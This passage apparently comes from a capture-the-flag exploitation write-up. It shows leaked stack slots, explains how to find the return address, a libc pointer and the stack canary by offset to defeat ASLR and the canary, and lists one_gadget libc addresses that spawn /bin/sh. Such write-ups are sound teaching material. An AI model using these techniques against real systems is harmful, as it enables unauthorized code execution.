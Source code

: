 ```
[...snip...]
[*] 36: b'(nil)'
[*] 37: b'0xf200000000000000'
[*] 38: b'(nil)'
[*] 39: b'0xf23d45ded6cdd100'
[*] 40: b'0x7ffd383695b0'
[*] 41: b'0x55aa4d945d7e'
[*] 42: b'0x7ffd38369698'
[*] 43: b'0x100000000'
[*] 44: b'0x55aa4d945d90'
[*] 45: b'0x7f3b0f5471e3'
[*] 46: b'0x7f3b0f707598'
[*] 47: b'0x7ffd38369698'
[...snip...]
```
The address in slot `41` is our return address and the address in slot `45` is
an address within the libc, allowing us to leak the libc base address.


### 3.3 Bypassing the stack canary

As we are able to leak the whole stack bypassing the `canary` becomes trivial.
We know the return address is at offset `41`, meaning the `canary` must be at
offset `39` as the `%rbp` register is saved between them. Now we can just
replay it and there will be no problem with our exploit. We can also confirm
this to be the `canary` as the lower byte is `\0`, which is always the case for
the `stack canary`.

### 3.4 Executing /bin/sh

After bypassing `ASLR` and the `stack canary` we now need to find a way to
execute `/bin/sh`, luckily for us `GNU libc` is littered with addresses that,
if jumped to do just that.

Using `one_gadget` we can easily find those addresses and their contraints:
```
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xe6b93 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6b96 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6b99 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x10afa9 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
